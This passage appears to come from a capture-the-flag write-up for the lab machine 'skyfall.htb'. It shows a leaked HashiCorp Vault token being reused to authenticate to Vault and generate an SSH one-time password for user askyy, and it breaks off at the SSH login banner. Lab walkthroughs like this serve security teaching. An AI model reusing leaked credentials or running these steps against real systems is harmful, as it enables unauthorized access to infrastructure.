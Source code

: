 On further enumeration of files with **.gz** we found these,

```
export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb/"
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"// Some code
```

To Install [**VAULT**](https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords).

Add **prd23-vault-internal.skyfall.htb** to /etc/hosts file.

Run the command as follows.

```
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb/"
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
```

```
┌──(Batman㉿GC)-[~/Downloads]
└─$ ./vault login
Token (will be hidden): 
WARNING! The VAULT_TOKEN environment variable is set! The value of this
variable will take precedence; if this is unwanted please unset VAULT_TOKEN or                                                             
update its value accordingly.                                                                                                              
                                                                                                                                           
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE
token_accessor       rByv1coOBC9ITZpzqbDtTUm8
token_duration       435850h57m1s
token_renewable      true
token_policies       ["default" "developers"]
identity_policies    []
policies             ["default" "developers"]
```

Primarily, Import configuration file into Vault, and then verified that the token value is valid.

To get user access, Run the following code, a **OTP** will be generated and use the **OTP** as the password of **SSH** connection.

```
┌──(Batman㉿GC)-[~/Downloads]
└─$ ./vault ssh -role dev_otp_key_role -mode otp askyy@10.10.11.254
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,                                                                 
Vault can automatically perform this step for you.                                                                                         
OTP for the session is: d1367bfe-8d4d-e3f5-2d7c-a85bd74be723
(askyy@10.10.11.254) Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-92-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
```